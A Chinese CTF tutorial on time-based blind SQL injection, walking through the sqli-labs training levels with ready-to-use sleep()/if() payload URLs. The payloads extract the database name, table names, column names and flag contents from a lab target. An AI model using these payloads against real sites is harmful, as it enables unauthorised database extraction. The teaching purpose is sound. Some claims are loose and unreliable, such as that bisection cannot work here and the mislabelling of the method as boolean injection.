

#sql注入之sleep注入

##一、免责声明

该课程中涉及的技术只适合于CTF比赛和有合法授权的渗透测试。请勿用于其他非法用途，如果作于其他非法用途，与本文作者无关。

##二、原理

sleep注入又称基于时间的盲注。当网站页面上没有任何显示位，也没有输出sql语句执行错误信息。此时我们可以尝试采用sleep注入。

sleep注入需要注入的一点是，正常sql注入和错误的sql语句返回的页面都一样。但是加入了sleep(5)后页面的返回速度明显慢了五秒。

##三、靶机地址

>http://xx.xx.xx.xx:8080/sql/Less-9/index.php?id=1

##四、函数介绍

1.sleep()函数

sleep()函数可以让函数停留n秒时间，然后返回０。如果程序被打断,则返回1。

在一般情况下，sleep()函数的返回值恒为０，因此我们便可以利用sleep(n)=0的永真性来执行sql注入。

执行上述语句的时候，会有一个时间的停顿。希望大家自己尝试一下。

2.if函数

if函数的表达式如下：

>if(表达式1,表达式2,表达式3)

如果表达式１是true，则返回表达式２；否则返回表达式３。

##五、实战

因为此关注入成功的判断都是延迟五秒返回界面。故在此不在截图。

1.判断注入类型以及闭合方式

我们按照以前的方法在后面添加单引号，and 1=1等因此尝试，发现页面无变化。因此我们尝试如下链接

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and if(1=0,1, sleep(10)) --+

此时发现过了将近10s后页面正常返回。单引号闭合成功。

2.猜数据库

首先我们来判断一下数据库的长度

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and if(length(database())=8,sleep(10),1)--+

我们可以发现，当length(database())为其他致时，页面会立刻返回。因为此时length(database())值为假，if函数返回1。所以页面会可以返回。

接下来我们继续猜测数据库名称

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),1,1))=115,sleep(10),1)--+

此时，网站延时成功，根据我们上节课中给出的ascii码表。我们可以查出115对应的单词为s。

由于sleep注入sql语句错误时，不会有错误页面。即我们也无法使用二分法进行判断。因此我们需要逐位逐位的去常识。所以手工测试比较繁琐。

subsrt函数第二位表示截取位数，我们可以通过修改它的值，来判断后面的位置链接如下：

>http://xx.xx.xx.xx:8080/sql/Less-9/?id=1' and If(ascii(substr(database(),2,1))=100,sleep(10),1)--+

然后依次判断其他位数，再次不在详细叙述。

3.判断表名

首先我们来判断一下seucrity各个数据表的长度。

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select table_name from information_schema.tables where table_schema='security' limit 1,1))=5,sleep(10),1)--+

然后依次判断表名称中的每个字符

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 3,1),1,1))=117,sleep(10),1)--+

通过上面的判断我们可以的得出存在flag这个表。

４.判段flag表中的列。

判断flag表中列的长度

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1))=４,sleep(10),1)--+

可以判断长度为４位，然后判断列名

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(ascii(substr((select column_name from information_schema.columns where table_schema='security' and table_name='flag' limit 1,1),1,1))=117,sleep(10),1)--+

然后通过substr和limit参数来修改剩余各位。

5.判断内容

>http://xx.xx.xx.xx:8080/sql/Less-5/?id=1'and If(length((select flag from security.flag limit 0,1))=4,sleep(10),1)--+

##六、sqlmap

因sql布尔型注入需要对猜解的字符进行逐个尝试，过程相对繁琐。故本人还是推荐使用sqlmap.

关于sqlmap使用，本节课程跟上节课程相同。故在此不做叙述。

##七、赛题实战

如有问题，可以随时在知识星球内＠江江河畔砍柴人

赛题地址: https://t.zsxq.com/6AUzBaY

##八、小结

CTF（web和内网渗透系列教程）的清单请在“https://github.com/xuanhun/HackingResource” 查看，定时更新最新章节链接

答疑、辅导请加入玄魂工作室--安全圈，一起成长探讨更私密内容。微信扫码了解详情：

及时获取更多消息，请关注微信订阅号

